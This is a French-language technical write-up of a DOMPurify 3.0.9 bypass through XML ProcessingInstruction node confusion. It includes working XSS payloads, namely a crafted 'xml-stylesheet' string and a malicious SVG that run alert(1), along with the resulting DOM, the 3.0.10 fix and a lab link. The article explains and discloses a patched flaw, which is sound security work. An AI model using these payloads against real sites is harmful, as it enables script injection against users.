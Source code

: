 # Dompurify 3.0.9 bypass - Node type confusion

## Crédits

Cet article se base sur les recherches de [slonser\_](https://twitter.com/slonser\_) ([https://blog.slonser.info/posts/dompurify-node-type-confusion/](https://blog.slonser.info/posts/dompurify-node-type-confusion/)).

## Confusion HTML et XML

Au sein d'un document HTML, rien n'empêche un noeud XML d'avoir un noeud HTML en tant que parent. C'est par exemple le cas d'un SVG intégré au sein d'une page HTML :

```html
<div id="userContent">
  <svg xmlns="http://www.w3.org/2000/svg" width="100" height="100" viewBox="0 0 100 100">
    <rect width="50" height="50" fill="green" />
  </svg>
</div>
```

L'image vectorielle s'affichant sans erreur au sein de la page.

### L'interface ProcessingInstruction

L'interface `ProcessingInstruction` représente un noeud qui intègre une instruction de traitement spécifique à une application XML. Elle possède le format suivant :&#x20;

```xml
<?target data?>
```

Par exemple :&#x20;

```xml
<?xml-stylesheet href="style.css"?>
```

Lorsque Dompurify assainit une chaîne de caractères de type XML, et que l'option adéquate est :&#x20;

```javascript
let userContent= document.getElementById('userContent');
userContent.innerHTML = DOMPurify.sanitize("<?xml-stylesheet <img src=x onerror=alert(1)>?>", {PARSER_MEDIA_TYPE: 'application/xhtml+xml'}); 
```

Les instructions de traitement (`ProcessingInstruction`) ne semblent pas être assainies par la bibliothèque. L'évenement `onerror` ainsi que l'appel à la méthode `alert()` ne sont pas supprimés : &#x20;

```html
<div id="userContent">
  <!--?xml-stylesheet <img src=x onerror=alert(1)-->
</div>
```

Malheureusement, le code est commenté par le navigateur, empêchant ainsi son exécution : &#x20;

<figure><img src="../../../.gitbook/assets/image (328).png" alt=""><figcaption><p><a href="https://developer.mozilla.org/en-US/docs/Web/API/ProcessingInstruction">https://developer.mozilla.org/en-US/docs/Web/API/ProcessingInstruction</a></p></figcaption></figure>

Toutefois, le navigateur commente le code jusqu'à rencontrer le prochain caractère `>`, il est donc possible d'exploiter ce comportemement de la façon suivante :&#x20;

```javascript
let userContent= document.getElementById('userContent');
userContent.innerHTML = DOMPurify.sanitize("<?xml-stylesheet ><img src=x onerror=alert(1)>?>", {PARSER_MEDIA_TYPE: 'application/xhtml+xml'}); 
```

L'affichage de la page HTML provoque dorénavant l'exécution de la méthode `alert()` :&#x20;

```html
<div id="userContent">
  <!--?xml-stylesheet -->
  <img src="x" onerror="alert(1)">
  "?>"
</div>
```

Par défaut, Dompurify traite la chaîne de caractères comme du HTML, et non du XML. De plus, il est assez rare d'identifier une cible imposant ce type de média et intégrant ensuite la donnée assainie au sein d'un document HTML.

### Assainissement d'un noeud

La manière la plus fréquente d'utiliser la méthode `sanitize()` de Dompurify est de lui passer une chaîne de caractères en tant que paramètre :&#x20;

{% code fullWidth="false" %}
```javascript
DOMPurify.sanitize("<img src='https://example.com/image.png'>")
```
{% endcode %}

Mais bien que moins utilisé, il est également possible de lui passer directement un noeud :&#x20;

```javascript
let img = document.createElement('img');
img.src = "https://example.com/image.png";

let userContent= document.getElementById('userContent');            
userContent.innerHTML = DOMPurify.sanitize(img);
```

Toutefois, lorsque le noeud est un noeud XML, le même comportement que précédent est possible lors de l'utilisation des `ProcessingInsruction`.

L'exemple suivant illustre une fonctionnalité permettant à l'utilisateur de fournir une URL afin de charger un fichier SVG, qui sera assaini par Dompurify avant d'être intégré au document HTML :

```javascript
let xhr = new XMLHttpRequest();

xhr.onreadystatechange = function() {
  if (xhr.readyState === 4 && xhr.status === 200) {
    let content = xhr.responseText;
    let extension = xhr.responseURL.split('.').pop().toLowerCase();

    if (extension === "svg") {
      let svg = new DOMParser().parseFromString(content, "image/svg+xml").documentElement;
      let userContent= document.getElementById('userContent');
      userContent.innerHTML = DOMPurify.sanitize(svg);
    }
  }
}

xhr.open("GET", url, true);
xhr.send();
```

Lorsque l'utilisateur renseigne une URL vers un fichier SVG, tel que :&#x20;

```svg
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.0//EN" "http://www.w3.org/TR/2001/REC-SVG-20010904/DTD/svg10.dtd">
<svg xmlns="http://www.w3.org/2000/svg" width="100" height="100" viewBox="0 0 100 100">
  <rect width="50" height="50" fill="green" />
  <?xml-stylesheet > <img src=x onerror="alert(1)"> ?>
</svg>
```

Dompurify échoue à assainir le noeud et permet l'exécution du code Javascript :&#x20;

```html
<div id="userContent"><svg viewBox="0 0 100 100" height="100" width="100" xmlns="http://www.w3.org/2000/svg">
  <rect fill="green" height="50" width="50"></rect>
  <!--?xml-stylesheet --> </svg><img src="x" onerror="alert(1)"> 
  " ?> "
</div>
```

## Correctif

Le correctif, apporté par la version 3.0.10 de Dompurify, consiste à l'ajout du masque `SHOW_PROCESSING_INSTRUCTION` lors du traitement des noeuds XML. Cela permet de traiter les noeuds de type `ProcessinInstruction` :&#x20;

```javascript
const _createNodeIterator = function _createNodeIterator(root) {
  return createNodeIterator.call(root.ownerDocument || root, root,
  // eslint-disable-next-line no-bitwise
  NodeFilter.SHOW_ELEMENT | NodeFilter.SHOW_COMMENT | NodeFilter.SHOW_TEXT | NodeFilter.SHOW_PROCESSING_INSTRUCTION, null);
};
```

Cette constante est définit par l'API DOM et utilisée par la méthode `createNodeIterator()`  ([https://developer.mozilla.org/en-US/docs/Web/API/Document/createNodeIterator](https://developer.mozilla.org/en-US/docs/Web/API/Document/createNodeIterator)).

## Labs

Afin de tester et d'exploiter ce contournement, une image Docker est disponible [ici](https://github.com/Sharpforce/cybersecurity-code/tree/master/dompurif-3.0.9).


